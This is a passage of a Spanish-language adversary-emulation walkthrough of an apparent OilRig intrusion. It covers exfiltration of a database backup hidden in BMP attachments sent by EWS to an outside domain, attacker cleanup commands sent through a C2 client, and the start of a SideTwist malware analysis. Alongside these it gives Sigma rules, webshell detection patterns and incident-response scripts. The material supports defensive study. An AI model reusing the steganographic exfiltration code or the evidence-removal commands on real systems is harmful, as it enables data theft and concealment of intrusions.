│   - Chunk 0: bytes 0-199,999                                   │
│   - Chunk 1: bytes 200,000-399,999                             │
│   - Chunk 2: bytes 400,000-599,999                             │
│   - ...                                                        │
│   - Chunk N: bytes restantes                                   │
│  Total: ~262 chunks                                            │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 3: Esteganografía                                         │
│ ────────────────────────────────────────────────────────────── │
│  Para cada chunk:                                              │
│   1. Cargar plantilla guest.bmp (archivo benigno)             │
│   2. Append chunk data al final de la imagen BMP              │
│   3. Resultado: guest_chunk0.bmp, guest_chunk1.bmp, etc.      │
│                                                                │
│  Estructura del archivo BMP resultante:                        │
│  ┌────────────────────────────┐                               │
│  │ BMP Header (54 bytes)      │  ← Válido                     │
│  ├────────────────────────────┤                               │
│  │ BMP Image Data             │  ← Imagen legítima            │
│  ├────────────────────────────┤                               │
│  │ [Datos exfiltrados]        │  ← Oculto al final            │
│  └────────────────────────────┘                               │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 4: Exfiltración vía EWS API                              │
│ ────────────────────────────────────────────────────────────── │
│  Para cada imagen BMP generada:                                │
│   1. Conectar a EWS API (https://10.1.0.6/EWS/Exchange.asmx)  │
│   2. Autenticar como gosta@boom.box                           │
│   3. Crear EmailMessage con:                                   │
│      - To: sistan@shirinfarhad.com                            │
│      - From: gosta@boom.box                                    │
│      - Subject: [Auto-generated]                              │
│      - Attachment: guest_chunkN.bmp                           │
│   4. SendAndSaveCopy() - Enviar y guardar en Sent Items      │
│   5. Repetir para cada chunk                                   │
└─────────────────────────────────────────────────────────────────┘
```

**Código Fuente Relevante (Análisis):**

```csharp
// Fragmentación del archivo
byte[] fileData = File.ReadAllBytes(filePath);
int chunkSize = 200000;
int totalChunks = (int)Math.Ceiling((double)fileData.Length / chunkSize);

for (int i = 0; i < totalChunks; i++)
{
    int offset = i * chunkSize;
    int length = Math.Min(chunkSize, fileData.Length - offset);

    byte[] chunk = new byte[length];
    Array.Copy(fileData, offset, chunk, 0, length);

    // Esteganografía: Agregar chunk a imagen BMP
    byte[] bmpTemplate = File.ReadAllBytes("guest.bmp");
    byte[] stegoImage = new byte[bmpTemplate.Length + chunk.Length];

    Array.Copy(bmpTemplate, 0, stegoImage, 0, bmpTemplate.Length);
    Array.Copy(chunk, 0, stegoImage, bmpTemplate.Length, chunk.Length);

    // Exfiltrar vía EWS
    ExfiltrateViaEWS(stegoImage, i);
}
```

**Ventajas de la Técnica Esteganográfica:**

1. **Evasión de DLP (Data Loss Prevention):**
   - Inspección de contenido no detecta datos sensibles
   - Archivos BMP parecen imágenes legítimas
   - Análisis superficial de adjuntos no revela datos ocultos

2. **Evasión de Network Security:**
   - Tráfico HTTPS legítimo a servidor Exchange interno
   - No hay conexiones salientes a Internet
   - Protocolo estándar (EWS) usado para funciones legítimas

3. **Persistencia de Datos:**
   - Emails almacenados en servidor Exchange
   - Copia en "Sent Items" de Gosta
   - Datos persisten incluso si se pierde conexión durante exfiltración

---

##### **Oportunidades de Detección**

**1. Detección de Procesos Masquerading:**

```yaml
# Sigma Rule: VMware.exe Execution from Unusual Location
title: Ejecución de VMware.exe desde Ubicación Inusual
status: experimental
description: Detecta ejecución de VMware.exe fuera de directorios legítimos
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\VMware.exe'
    filter:
        Image|startswith:
            - 'C:\Program Files\VMware\'
            - 'C:\Program Files (x86)\VMware\'
    condition: selection and not filter
falsepositives:
    - Instalaciones personalizadas de VMware en ubicaciones no estándar
level: high
tags:
    - attack.defense_evasion
    - attack.t1036.005
```

**2. Detección de Exfiltración vía EWS:**

```yaml
# Sigma Rule: High Volume Email Sending via EWS
title: Envío de Volumen Alto de Emails vía EWS API
status: experimental
description: Detecta envío de múltiples emails en corto tiempo vía EWS
logsource:
    product: exchange
    service: ews
detection:
    selection:
        Action: 'SendAndSaveCopy'
        ClientApplication|contains: 'RDAT'
    timeframe: 10m
    condition: selection | count(UserPrincipalName) > 50
falsepositives:
    - Scripts automatizados legítimos de envío de emails
    - Aplicaciones de negocio que envían notificaciones masivas
level: high
tags:
    - attack.exfiltration
    - attack.t1048.003
```

**3. Detección de Emails con Adjuntos Esteganográficos:**

```yaml
# Sigma Rule: Email with Suspicious BMP Attachments
title: Email con Adjuntos BMP Sospechosos
status: experimental
description: Detecta emails con múltiples adjuntos BMP de tamaño inusual
logsource:
    product: exchange
    service: transport
detection:
    selection:
        AttachmentExtension: '.bmp'
        AttachmentSize: '>100000'  # > 100 KB
    timeframe: 10m
    condition: selection | count(SenderAddress) > 20
falsepositives:
    - Compartir colecciones de imágenes legítimas
    - Transferencias de diseño gráfico
level: medium
tags:
    - attack.exfiltration
    - attack.t1027.003
```

**4. Detección con PowerShell (Exchange Logs):**

```powershell
# Analizar logs de Exchange para detectar patrón de exfiltración
$startTime = (Get-Date).AddHours(-24)

Get-MessageTrackingLog -Start $startTime -ResultSize Unlimited |
    Where-Object {
        $_.EventId -eq 'SEND' -and
        $_.TotalBytes -gt 100000 -and
        $_.RecipientAddress -notlike '*@boom.box'
    } |
    Group-Object SenderAddress |
    Where-Object { $_.Count -gt 50 } |
    ForEach-Object {
        [PSCustomObject]@{
            Sender = $_.Name
            MessagesSent = $_.Count
            TotalSizeMB = ($_.Group | Measure-Object TotalBytes -Sum).Sum / 1MB
            Recipients = ($_.Group.RecipientAddress | Select-Object -Unique)
            TimeRange = "$(($_.Group.Timestamp | Measure-Object -Minimum).Minimum) - $(($_.Group.Timestamp | Measure-Object -Maximum).Maximum)"
        }
    } |
    Format-Table -AutoSize
```

**5. Análisis de Archivos Esteganográficos:**

```powershell
# Script para detectar datos ocultos en archivos BMP
function Test-SteganographicBMP {
    param([string]$Path)

    $bytes = [System.IO.File]::ReadAllBytes($Path)

    # Leer BMP header
    if ($bytes[0] -ne 0x42 -or $bytes[1] -ne 0x4D) {
        Write-Host "No es un archivo BMP válido"
        return
    }

    # Obtener tamaño de archivo del header
    $fileSize = [BitConverter]::ToUInt32($bytes, 2)
    $pixelDataOffset = [BitConverter]::ToUInt32($bytes, 10)
    $imageSize = [BitConverter]::ToUInt32($bytes, 34)

    # Calcular tamaño esperado
    $expectedSize = $pixelDataOffset + $imageSize
    $actualSize = $bytes.Length

    # Si hay bytes extra al final = posible esteganografía
    $extraBytes = $actualSize - $expectedSize

    if ($extraBytes -gt 1000) {  # Threshold: 1KB
        Write-Host "[ALERT] Posible esteganografía detectada" -ForegroundColor Red
        Write-Host "Archivo: $Path"
        Write-Host "Tamaño esperado: $expectedSize bytes"
        Write-Host "Tamaño actual: $actualSize bytes"
        Write-Host "Datos ocultos: $extraBytes bytes"

        # Extraer datos ocultos
        $hiddenData = $bytes[$expectedSize..($actualSize-1)]
        $outputPath = "$Path.extracted"
        [System.IO.File]::WriteAllBytes($outputPath, $hiddenData)
        Write-Host "Datos extraídos a: $outputPath"
    } else {
        Write-Host "[OK] Archivo BMP sin anomalías" -ForegroundColor Green
    }
}

# Escanear todos los BMPs en buzón de un usuario
$mailboxPath = "C:\Users\gosta\AppData\Local\Microsoft\Outlook\Archive\"
Get-ChildItem -Path $mailboxPath -Filter *.bmp -Recurse |
    ForEach-Object { Test-SteganographicBMP -Path $_.FullName }
```

---

##### **Estrategias de Mitigación**

**Prevención:**

1. **Restringir EWS API Access:**
   ```powershell
   # Deshabilitar EWS para usuarios que no lo requieren
   Set-CASMailbox -Identity "gosta" -EwsEnabled $false

   # Permitir solo para aplicaciones autorizadas
   Set-CASMailbox -Identity "gosta" -EwsAllowList @("Outlook/*")
   ```

2. **Rate Limiting en EWS:**
   ```powershell
   # Configurar throttling policy para EWS
   New-ThrottlingPolicy -Name "RestrictedEWS" `
       -EwsMaxConcurrency 1 `
       -EwsPercentTimeInAD 5 `
       -EwsPercentTimeInCAS 10 `
       -MessageRateLimit 50 `
       -RecipientRateLimit 100

   Set-ThrottlingPolicyAssociation -Identity "gosta@boom.box" `
       -ThrottlingPolicy "RestrictedEWS"
   ```

3. **Content Filtering para Archivos Esteganográficos:**
   - Implementar inspección profunda de adjuntos BMP
   - Verificar coherencia entre header BMP y tamaño real del archivo
   - Bloquear o alertar sobre BMPs con datos appended

4. **Egress Filtering para Emails:**
   ```powershell
   # Transport Rule para detectar envío masivo de adjuntos
   New-TransportRule -Name "Block Mass Attachment Sending" `
       -AttachmentSizeOver 100KB `
       -SentToScope NotInOrganization `
       -SetAuditSeverity High `
       -GenerateIncidentReport "security@boom.box"
   ```

5. **Network Segmentation:**
   - SQL servers no deberían poder comunicarse directamente con Exchange
   - Firewall rule:
     ```
     Deny: [SQL VLAN] → [Exchange VLAN]:443,80
     ```

**Detección:**

1. **SIEM Correlation:**
   ```
   IF [PsExec Execution on SQL Server]
     AND [Process Execution: VMware.exe from ProgramData]
     AND [High Volume EWS API Calls]
     AND [Multiple Emails with Large BMP Attachments]
     AND [Emails Sent to External Domain]
   THEN Alert: Critical - Data Exfiltration in Progress
   ```

2. **Behavioral Analytics:**
   - Baseline de comportamiento de envío de emails por usuario
   - Alertar sobre desviaciones significativas
   - Ejemplo: Gosta normalmente envía 5 emails/día, alerta si > 100 emails/hora

3. **Mail Flow Monitoring:**
   ```powershell
   # Monitoreo en tiempo real con Exchange Management Shell
   while ($true) {
       $recentSends = Get-MessageTrackingLog -Start (Get-Date).AddMinutes(-5) `
           -EventId "SEND" -ResultSize Unlimited

       $suspiciousActivity = $recentSends | Group-Object SenderAddress |
           Where-Object { $_.Count -gt 20 }

       if ($suspiciousActivity) {
           Send-AlertEmail -To "soc@boom.box" `
               -Subject "ALERT: Possible Data Exfiltration" `
               -Body $suspiciousActivity
       }

       Start-Sleep -Seconds 300
   }
   ```

**Respuesta:**

1. **Contención Inmediata:**
   - Deshabilitar cuenta de email de Gosta: `Disable-Mailbox -Identity gosta`
   - Terminar proceso RDAT en ENDOFROAD: `taskkill /F /IM VMware.exe`
   - Bloquear dominio `shirinfarhad.com` en email gateway
   - Aislar ENDOFROAD de la red

2. **Análisis de Impacto:**
   ```powershell
   # Identificar todos los emails enviados durante el ataque
   $exfilEmails = Get-MessageTrackingLog -Sender "gosta@boom.box" `
       -Start (Get-Date).AddDays(-7) `
       -Recipients "sistan@shirinfarhad.com"

   # Calcular volumen total exfiltrado
   $totalExfiltrated = ($exfilEmails | Measure-Object TotalBytes -Sum).Sum
   Write-Host "Total de datos exfiltrados: $($totalExfiltrated / 1MB) MB"

   # Listar adjuntos
   $exfilEmails | ForEach-Object {
       Write-Host "MessageId: $($_.MessageId)"
       Write-Host "Timestamp: $($_.Timestamp)"
       Write-Host "Size: $($_.TotalBytes) bytes"
   }
   ```

3. **Recuperación de Datos Exfiltrados:**
   ```powershell
   # Recuperar emails del buzón de Gosta (Sent Items)
   $mailbox = "gosta@boom.box"
   $sentItems = Get-MailboxFolderStatistics -Identity $mailbox |
       Where-Object { $_.FolderType -eq "SentItems" }

   # Exportar para análisis forense
   New-MailboxExportRequest -Mailbox $mailbox `
       -ContentFilter {(Received -gt "10/14/2024") -and (To -like "*shirinfarhad.com")} `
       -FilePath "\\ForensicShare\Investigations\OilRig\gosta_sent_items.pst"
   ```

4. **Análisis Forense de Archivos BMP:**
   ```bash
   # Extraer datos ocultos de archivos BMP recuperados
   for bmp in *.bmp; do
       echo "Analyzing $bmp..."

       # Obtener tamaño declarado en header BMP
       header_size=$(hexdump -s 2 -n 4 -e '1/4 "%u"' "$bmp")

       # Obtener tamaño real del archivo
       actual_size=$(stat -f%z "$bmp")

       # Calcular diferencia
       hidden_size=$((actual_size - header_size))

       if [ $hidden_size -gt 1000 ]; then
           echo "[!] Hidden data detected: $hidden_size bytes"

           # Extraer datos ocultos
           dd if="$bmp" of="$bmp.extracted" bs=1 skip=$header_size

           # Intentar identificar tipo de archivo
           file "$bmp.extracted"
       fi
   done

   # Reconstruir archivo original concatenando todos los chunks
   cat *.bmp.extracted > sitedata_db.bak.recovered

   # Verificar integridad
   file sitedata_db.bak.recovered
   ```

5. **Hardening Post-Incidente:**
   - Implementar MFA obligatorio para acceso a EWS
   - Desplegar DLP con detección de esteganografía
   - Implementar egress filtering estricto para SQL servers
   - Configurar alertas proactivas para actividad anómala de EWS
   - Realizar threat hunting proactivo en busca de otros implantes

---

#### **Paso 11: Limpieza y Egreso**

##### **Contexto del Ataque**

El paso final del ataque de OilRig consiste en eliminar evidencia de sus actividades para dificultar la investigación forense y evitar la detección. Los atacantes eliminan sistemáticamente herramientas, archivos de salida, y backdoors de los sistemas comprometidos.

**Resumen de Actividades:**
1. Eliminar RDAT del servidor SQL
2. Eliminar herramientas del servidor Exchange (Mimikatz, PsExec, RDAT, TwoFace)
3. Cerrar túneles SSH y sesiones RDP
4. Eliminar SideTwist del workstation inicial

**Técnicas MITRE ATT&CK:**
- **T1070.004** - Indicator Removal: File Deletion
- **T1070.006** - Indicator Removal: Timestomp (potencial)
- **T1036.005** - Masquerading: Match Legitimate Name or Location

---

##### **Proceso de Limpieza**

**1. Limpieza en ENDOFROAD (SQL Server):**

Desde la sesión PsExec activa en ENDOFROAD:

```cmd
del C:\ProgramData\VMware\VMware.exe
rmdir C:\ProgramData\VMware
exit
```

**Análisis:**
- Elimina el backdoor RDAT (VMware.exe)
- Elimina el directorio staging completo
- `exit` cierra la sesión PsExec
- **Nota:** Los archivos de base de datos (sitedata_db.bak) NO son eliminados - contienen datos legítimos del negocio

**Artefactos Restantes en ENDOFROAD:**
```
[✓] Eliminados:
  - C:\ProgramData\VMware\VMware.exe
  - C:\ProgramData\Nt.dat (ya movido)

[✗] Permanecen (evidencia forense):
  - C:\Windows\PSEXESVC.exe (puede persistir si PsExec terminó incorrectamente)
  - Event Logs (Security, System):
      * 4624: Logon events (tous)
      * 7045: Service installation (PSEXESVC)
      * 4688: Process creation events
  - Prefetch files: VMware.exe, ps.exe
  - $MFT entries para archivos eliminados
  - NTFS USN Journal
```

**2. Limpieza en WATERFALLS (Exchange Server):**

Desde el Command Prompt elevado (aún en sesión RDP):

```cmd
del C:\Windows\System32\mom64.exe C:\Windows\temp\Nt.dat C:\Windows\System32\ps.exe
exit
```

**Análisis:**
- Elimina Mimikatz (mom64.exe), RDAT staging (Nt.dat), y PsExec (ps.exe)
- **Nota crítica:** El webshell TwoFace (contact.aspx) NO es eliminado en este comando
- Esto podría ser:
  - Oversight operacional
  - Decisión intencional para mantener acceso persistente
  - Confianza en que el webshell permanece sin detectar

**Artefactos Restantes en WATERFALLS:**
```
[✓] Eliminados:
  - C:\Windows\System32\mom64.exe
  - C:\Windows\Temp\Nt.dat
  - C:\Windows\System32\ps.exe

[✗] Permanecen (evidencia forense):
  - C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx (WEBSHELL - CRÍTICO)
  - IIS Logs:
      * Todas las requests a contact.aspx
      * POST requests con comandos ejecutados
      * File upload activity
  - Event Logs:
      * Process creation: mimikatz, psexec
      * RDP logon sessions (Gosta)
  - Email Logs:
      * Todos los emails exfiltrados en Sent Items
      * EWS API access logs
  - Prefetch files para herramientas ejecutadas
  - Memory artifacts (si system no ha sido reiniciado)
```

**3. Cierre de Túnel SSH:**

Desde el Linux Attack Platform (Kali):

```bash
ps aux | grep ssh
```

**Salida esperada:**
```
saka     12345  0.0  0.1  12345  6789 ?  S  14:32  0:00 ssh -R 192.168.0.4:13389:10.1.0.6:3389 ...
```

```bash
kill 12345
```

**Análisis:**
- Identifica proceso SSH que mantiene el túnel reverso
- Termina el proceso, cerrando el túnel RDP
- Esto corta la conexión entre el Attack Platform y WATERFALLS

**Artefactos Restantes en Linux Attack Platform:**
```
[✓] Eliminados:
  - Proceso SSH activo

[✗] Permanecen (evidencia forense):
  - ~/.ssh/known_hosts (entrada para 192.168.0.4)
  - Bash history con comandos evalsC2client.py
  - Archivos en ./files/:
      * fsociety.dat (output de VALUEVAULT)
      * 01.txt (output de Mimikatz)
  - Control server logs
  - Network logs (SSH connections, C2 traffic)
```

**4. Limpieza en THEBLOCK (Workstation Inicial):**

Desde el servidor C2, enviar comandos a SideTwist:

```bash
./evalsC2client.py --set-task goTb '101 del C:\Users\gosta\AppData\Roaming\b.exe C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe C:\Users\gosta\AppData\Local\SystemFailureReporter\update.xml'
```

**Análisis del Comando:**

- **`b.exe`** - VALUEVAULT credential dumper
- **`fsociety.dat`** - Output del credential dump
- **`plink.exe`** - SSH tunneling tool
- **`update.xml`** - Archivo "killswitch" de SideTwist

**Efecto del Killswitch:**
- SideTwist verifica la existencia de `update.xml` en cada ejecución
- Si el archivo no existe, SideTwist termina inmediatamente sin beaconear
- La tarea programada continúa ejecutando `SystemFailureReporter.exe` cada 5 minutos
- Pero el implante ya no comunica con C2 ni ejecuta comandos

**Artefactos Restantes en THEBLOCK:**
```
[✓] Eliminados:
  - C:\Users\gosta\AppData\Roaming\b.exe (VALUEVAULT)
  - C:\Users\gosta\AppData\Roaming\fsociety.dat (creds)
  - C:\Users\Public\Downloads\plink.exe
  - C:\Users\gosta\AppData\Local\SystemFailureReporter\update.xml (killswitch)

[✗] Permanecen (evidencia forense):
  - C:\Users\gosta\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe (SIDETWIST - CRÍTICO)
  - Scheduled Task: SystemFailureReporter (activa, pero implant inactivo)
  - Documento malicioso: C:\Users\gosta\Downloads\GGMS Overview.doc
  - Event Logs:
      * 4688: Process creation (b.exe, plink.exe)
      * 4698: Scheduled task creation
      * Network connections a 192.168.0.4:443
  - Prefetch files
  - $MFT entries
  - Email en OWA de team@ganjavigms.com
```

---

##### **Evaluación de Efectividad de la Limpieza**

**Elementos Eliminados Exitosamente:**
- ✅ Herramientas temporales (PsExec, Plink)
- ✅ Archivos de output de credenciales
- ✅ Backdoor de exfiltración (RDAT)
- ✅ Túnel SSH activo
- ✅ Killswitch de SideTwist (desactiva beaconing)

**Elementos NO Eliminados (Fallas Críticas):**
- ❌ **WebShell TwoFace (contact.aspx)** - Persistencia crítica
- ❌ **SideTwist Implant** - Backdoor principal permanece en disco
- ❌ **Scheduled Task** - Mecanismo de persistencia activo
- ❌ **Documento Malicioso Inicial** - Evidencia del vector de acceso inicial
- ❌ **Event Logs** - Timeline completo de actividades
- ❌ **IIS Logs** - Registro de actividad del webshell
- ❌ **Emails Exfiltrados** - Almacenados en Exchange server

**Evaluación de Riesgo Post-Cleanup:**

1. **Detección Inmediata (Horas):**
   - ❌ IIS logs revelan acceso a contact.aspx
   - ❌ Exchange logs muestran exfiltración vía EWS
   - ❌ Network logs evidencian túneles SSH y C2 traffic

2. **Detección Corto Plazo (Días):**
   - ❌ Webshell contact.aspx descubierto en escaneo de integridad
   - ❌ Scheduled task "SystemFailureReporter" identificado como anómalo
   - ❌ Análisis forense de disco recupera archivos eliminados

3. **Persistencia Residual:**
   - ⚠️ WebShell permite reacceso sin necesidad de phishing
   - ⚠️ SideTwist puede ser reactivado recreando update.xml
   - ⚠️ Credenciales comprometidas aún válidas (no fueron reseteadas)

---

##### **Oportunidades de Detección Post-Cleanup**

**1. Detección de File Deletion Patterns:**

```yaml
# Sigma Rule: Mass File Deletion
title: Eliminación Masiva de Archivos Ejecutables
status: experimental
description: Detecta eliminación de múltiples archivos .exe en corto tiempo
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4660  # Object Deleted
        ObjectType: 'File'
        ObjectName|endswith: '.exe'
    timeframe: 5m
    condition: selection | count() > 3
falsepositives:
    - Desinstalación de software
    - Cleanup scripts automatizados
level: medium
tags:
    - attack.defense_evasion
    - attack.t1070.004
```

**2. Detección de Artefactos Persistentes:**

```powershell
# Hunting Script: Buscar Webshells en IIS
$iisPath = "C:\inetpub\wwwroot"
$exchPath = "C:\Program Files\Microsoft\Exchange Server\"

# Buscar archivos .aspx modificados recientemente
Get-ChildItem -Path $exchPath -Filter *.aspx -Recurse |
    Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-30) } |
    ForEach-Object {
        $content = Get-Content $_.FullName -Raw

        # Buscar patterns comunes de webshells
        $suspiciousPatterns = @(
            'eval\s*\(',
            'System\.Diagnostics\.Process',
            'cmd\.exe',
            'ProcessStartInfo',
            'Request\.Form',
            'Request\.Files'
        )

        foreach ($pattern in $suspiciousPatterns) {
            if ($content -match $pattern) {
                Write-Host "[ALERT] Possible webshell: $($_.FullName)" -ForegroundColor Red
                Write-Host "Pattern matched: $pattern"
                break
            }
        }
    }

# Buscar tareas programadas sospechosas
Get-ScheduledTask | Where-Object {
    $_.TaskPath -notlike '\Microsoft\*' -and
    $_.Principal.UserId -notlike 'S-1-5-18'  # No SYSTEM tasks
} | ForEach-Object {
    $taskInfo = Get-ScheduledTaskInfo $_
    $action = $_.Actions[0]

    if ($action.Execute -like '*AppData\Local*' -or
        $action.Execute -like '*\Roaming\*') {
        Write-Host "[ALERT] Suspicious scheduled task: $($_.TaskName)" -ForegroundColor Red
        Write-Host "Path: $($_.TaskPath)"
        Write-Host "Execute: $($action.Execute)"
        Write-Host "Arguments: $($action.Arguments)"
    }
}
```

**3. Análisis Forense de Archivos Eliminados:**

```powershell
# Análisis de NTFS $MFT para recuperar archivos eliminados
# Requiere: https://github.com/jschicht/MFTExplorer

# Exportar $MFT
& ".\RawCopy64.exe" /FileNamePath:"C:\$MFT" /OutputPath:".\evidence\"

# Analizar con MFTExplorer para encontrar:
# - Archivos eliminados recientemente (.exe, .dat)
# - Timestamps de eliminación
# - Nombres de archivo sospechosos (mom64.exe, ps.exe, VMware.exe en ProgramData)

# Buscar archivos eliminados en timeframe del ataque
$mftRecords = Parse-MFT -MFTFile ".\evidence\$MFT"

$deletedFiles = $mftRecords | Where-Object {
    $_.Deleted -eq $true -and
    $_.DeletionTime -gt (Get-Date '2024-10-14') -and
    $_.DeletionTime -lt (Get-Date '2024-10-15')
} | Select-Object FileName, ParentPath, DeletionTime, Size

$deletedFiles | Format-Table -AutoSize
```

**4. Timeline Reconstruction:**

```powershell
# Construir timeline completo de actividad del atacante
$events = @()

# Security logs
$events += Get-WinEvent -FilterHashtable @{
    LogName='Security'
    StartTime=(Get-Date '2024-10-14')
    EndTime=(Get-Date '2024-10-15')
    ID=4688,4624,4648,4672,4660,4663,5145  # Process, Logon, Privilege Use, File Access, Share Access
}

# System logs
$events += Get-WinEvent -FilterHashtable @{
    LogName='System'
    StartTime=(Get-Date '2024-10-14')
    EndTime=(Get-Date '2024-10-15')
    ID=7045,7040  # Service installation/changes
}

# Sysmon logs (si está instalado)
$events += Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    StartTime=(Get-Date '2024-10-14')
    EndTime=(Get-Date '2024-10-15')
}

# Ordenar y exportar timeline
$timeline = $events | Sort-Object TimeCreated |
    Select-Object TimeCreated, Id, ProviderName, Message

$timeline | Export-Csv -Path ".\attack_timeline.csv" -NoTypeInformation
```

---

##### **Estrategias de Mitigación**

**Prevención (Anti-Forensics Hardening):**

1. **Prevenir Eliminación de Event Logs:**
   ```powershell
   # Configurar retención de logs
   wevtutil sl Security /ms:1073741824  # 1GB
   wevtutil sl System /ms:1073741824

   # Habilitar log forwarding a SIEM
   winrm quickconfig
   ```

2. **File Integrity Monitoring (FIM):**
   - Monitorear cambios en directorios críticos:
     - `C:\Program Files\Microsoft\Exchange Server\`
     - `C:\Windows\System32\`
     - `C:\Users\*\AppData\Local\`
   - Alertar sobre eliminación de archivos .exe

3. **Scheduled Task Auditing:**
   ```powershell
   # Habilitar auditoría de cambios en tareas programadas
   auditpol /set /subcategory:"Other Object Access Events" /success:enable

   # Configurar Sysmon para log de cambios en tareas
   # Sysmon EventID 11 (FileCreate) for C:\Windows\System32\Tasks\
   ```

**Detección:**

1. **Continuous Monitoring:**
   - EDR con capacidad de detectar:
     - Eliminación masiva de archivos
     - Modificación de tareas programadas
     - Terminación de procesos críticos
   - Baseline de archivos en sistemas críticos (daily checksums)

2. **SIEM Alerting:**
   ```
   Rule: Cleanup Activity Detection

   IF [Multiple File Deletion Events]
     AND [Process Termination (unusual)]
     AND [Scheduled Task Modification]
   THEN Alert: Possible Adversary Cleanup
   ```

3. **Forensic Readiness:**
   - Habilitar auditing comprehensivo antes de incidente
   - Configurar log forwarding en tiempo real
   - Implementar network packet capture (PCAP) en segmentos críticos

**Respuesta:**

1. **Contención Inmediata:**
   ```powershell
   # Aislar todos los sistemas comprometidos
   $compromisedSystems = @('THEBLOCK', 'WATERFALLS', 'ENDOFROAD')

   foreach ($system in $compromisedSystems) {
       # Deshabilitar network adapters
       Invoke-Command -ComputerName $system -ScriptBlock {
           Get-NetAdapter | Disable-NetAdapter -Confirm:$false
       }

       Write-Host "[$system] Network isolated"
   }
   ```

2. **Preservación de Evidencia:**
   ```powershell
   # Capturar memoria antes de cualquier cambio
   foreach ($system in $compromisedSystems) {
       # Usando WinPMem o similar
       & .\winpmem.exe --output "\\ForensicShare\$system-memory.raw" --format raw
   }

   # Capturar discos completos
   foreach ($system in $compromisedSystems) {
       & .\FTK Imager.exe --source "\\$system\C$" `
           --dest "\\ForensicShare\$system-disk.E01" `
           --compress 6 --verify
   }

   # Exportar Event Logs
   foreach ($system in $compromisedSystems) {
       $logs = @('Security', 'System', 'Application', 'Microsoft-Windows-Sysmon/Operational')
       foreach ($log in $logs) {
           wevtutil epl $log "\\ForensicShare\$system-$log.evtx" /r:$system
       }
   }
   ```

3. **Análisis Forense:**
   - Identificar scope completo del compromiso
   - Recuperar archivos eliminados ($MFT, Volume Shadow Copies)
   - Reconstruir timeline de actividades
   - Identificar persistencia residual
   - Evaluar datos exfiltrados

4. **Erradicación Completa:**
   ```powershell
   # THEBLOCK
   Invoke-Command -ComputerName THEBLOCK -ScriptBlock {
       # Eliminar SideTwist
       Remove-Item "C:\Users\gosta\AppData\Local\SystemFailureReporter\*" -Force -Recurse

       # Eliminar tarea programada
       Unregister-ScheduledTask -TaskName "SystemFailureReporter" -Confirm:$false

       # Eliminar documento malicioso
       Remove-Item "C:\Users\gosta\Downloads\GGMS Overview.doc" -Force
   }

   # WATERFALLS
   Invoke-Command -ComputerName WATERFALLS -ScriptBlock {
       # Eliminar webshell TwoFace
       Remove-Item "C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" -Force

       # Escanear en busca de otros webshells
       Get-ChildItem "C:\Program Files\Microsoft\Exchange Server" -Filter *.aspx -Recurse |
           Where-Object { $_.CreationTime -gt (Get-Date).AddDays(-30) }
   }

   # Resetear credenciales comprometidas
   $compromisedUsers = @('gosta', 'tous')
   foreach ($user in $compromisedUsers) {
       Set-ADAccountPassword -Identity $user -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Temp123!@#" -Force)
       Set-ADUser -Identity $user -ChangePasswordAtLogon $true
   }

   # Invalidar sesiones activas
   foreach ($user in $compromisedUsers) {
       Get-ADUser $user | Set-ADUser -Replace @{logonHours=@(0)*21}
   }
   ```

5. **Recuperación:**
   - Rebuild de sistemas comprometidos desde imágenes limpias
   - Implementar hardening mejorado
   - Deployment de EDR en todos los endpoints y servidores
   - Configurar monitoring comprehensivo

---

### Resumen de la Fase 3

**Logros del Atacante:**
- ✅ Movimiento lateral exitoso a servidor SQL
- ✅ Exfiltración de ~50 MB de datos sensibles
- ✅ Evasión de controles de seguridad (DLP, egress filtering)
- ✅ Uso de técnicas esteganográficas sofisticadas
- ⚠️ Cleanup parcialmente exitoso (algunos artefactos permanecen)

**Vulnerabilidades Explotadas:**
- Credenciales en texto plano en memoria (LSASS)
- Falta de segmentación de red
- Administrative shares habilitados
- Sin MFA en cuentas privilegiadas
- Sin rate limiting en EWS API
- Permisos excesivos en cuentas de dominio

**Evidencia Forense Restante:**
- Event logs completos
- IIS logs con actividad de webshell
- Emails exfiltrados en servidor Exchange
- Archivos eliminados recuperables desde $MFT
- Network logs (firewall, proxy)
- Memory artifacts

**Lecciones Aprendidas:**
- La eliminación de archivos NO elimina evidencia forense
- Event logs son críticos para reconstrucción de incidentes
- Múltiples capas de defensa pueden detectar incluso técnicas sofisticadas
- La respuesta rápida es esencial para limitar exfiltración de datos

---

## **Parte 3: Análisis Técnico Profundo**

### **3.1 Análisis de Malware**

Esta sección presenta un análisis técnico profundo de las cuatro herramientas de malware utilizadas por OilRig en este escenario de emulación. El análisis cubre arquitectura, funcionalidad, técnicas de evasión, y características forenses de cada herramienta.

---

#### **SideTwist - Backdoor HTTP**

**Clasificación:** Remote Access Trojan (RAT) / Backdoor
**Lenguaje:** C++
**Primera Observación:** 2021 (Check Point Research)
**Familia de Malware:** Custom tool de APT34/OilRig

##### **Descripción General**

SideTwist es un backdoor HTTP desarrollado específicamente por OilRig que implementa un mecanismo de command-and-control (C2) basado en solicitudes HTTP con cifrado XOR. Se caracteriza por su capacidad de ejecutar comandos arbitrarios, descargar y cargar archivos, y su diseño para evadir detección mediante el uso de un servidor C2 que se camufla como página de error de Flickr.

##### **Arquitectura Técnica**

**Estructura del Binario:**
```
SideTwist (SystemFailureReporter.exe)
├── Módulo de Inicialización
│   ├── Verificación de killswitch (update.xml)
│   ├── Recolección de información del host
│   └── Configuración de comunicaciones C2
├── Módulo de Comunicaciones
│   ├── Cliente HTTP
│   ├── Cifrado/Descifrado XOR
│   └── Parsing de comandos
├── Módulo de Ejecución
│   ├── Command execution (cmd.exe)
│   ├── File download
│   └── File upload
└── Módulo de Persistencia
    └── Verificación de killswitch
```

##### **Funciones Críticas del Código**

**1. Recolección de Información del Host:**

```cpp
// Código ubicado en SideTwist.cpp líneas 238-280
void SideTwist::CollectHostInfo() {
    DWORD size = 256;
